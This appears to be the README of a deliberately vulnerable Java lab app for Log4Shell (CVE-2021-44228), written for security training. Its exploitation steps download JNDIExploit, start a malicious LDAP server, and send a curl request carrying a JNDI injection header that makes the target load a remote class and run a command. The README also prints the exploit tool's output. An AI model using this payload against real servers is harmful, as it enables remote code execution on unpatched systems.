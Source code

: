 # TekiumLog4jApp v1.0

Author: Erick Rodríguez 

Email: erickrr.tbd93@gmail.com, erodriguez@tekium.mx

License: GPLv3

Application developed in Java that simulates an application vulnerable to CVE-2021-44228. 

It uses Log4j 2.11.1 and JDK 1.8.0_181.

# Running

Run it:

`docker run --name tekiumlog4japp -p 8080:8080 d0ck3rt3k1umhub/tekiumlog4japp:v1`

Build the Docker image by yourself:

`docker build . -t tekiumlog4japp`

`docker run -p 8080:8080 --name tekiumlog4japp tekiumlog4japp`

# Exploitation Steps

<i>Note: This project is inspired by the <a href="https://github.com/christophetd/log4shell-vulnerable-app">christophetd</a> project.</i>

- Use <a href="https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip">JNDIExploit</a> to spin up a malicious LDAP server

`wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888`

- Then, trigger the exploit using:

`curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'`

- Notice the output of JNDIExploit, showing it has sent a malicious LDAP response and served the second-stage payload:

`[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
[+] Received LDAP Query: Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo
[+] Paylaod: command
[+] Command: touch /tmp/pwned

[+] Sending LDAP ResourceRef result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo redirecting to http://192.168.1.143:8888/Exploitjkk87OnvOH.class
[+] New HTTP Request From /192.168.1.143:50119  /Exploitjkk87OnvOH.class
[+] Receive ClassRequest: Exploitjkk87OnvOH.class
[+] Response Code: 200`


# Commercial Support
![Tekium](https://github.com/unmanarc/uAuditAnalyzer2/blob/master/art/tekium_slogo.jpeg)

Tekium is a cybersecurity company specialized in red team and blue team activities based in Mexico, it has clients in the financial, telecom and retail sectors.

Tekium is an active sponsor of the project, and provides commercial support in the case you need it.

For integration with other platforms such as the Elastic stack, SIEMs, managed security providers in-house solutions, or for any other requests for extending current functionality that you wish to see included in future versions, please contact us: info at tekium.mx

For more information, go to: https://www.tekium.mx/

